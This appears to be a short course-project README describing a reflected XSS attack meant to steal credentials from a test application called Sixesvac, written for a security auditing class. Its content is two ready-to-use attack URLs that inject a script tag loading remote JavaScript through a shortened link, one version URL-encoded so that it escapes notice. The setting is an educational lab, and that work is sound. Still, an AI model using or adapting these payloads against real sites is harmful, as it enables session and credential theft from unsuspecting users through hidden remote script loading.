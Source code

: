 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (47 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2F%73horturl%2E%61%74%2FdepAO%22%3E%3C%2F%73%63%72%69%70%74%3E` (120 caracteres en parámetro de consulta; discreto mediante codificación URL)

## Acortador de URL usado
https://www.shorturl.at/shortener.php
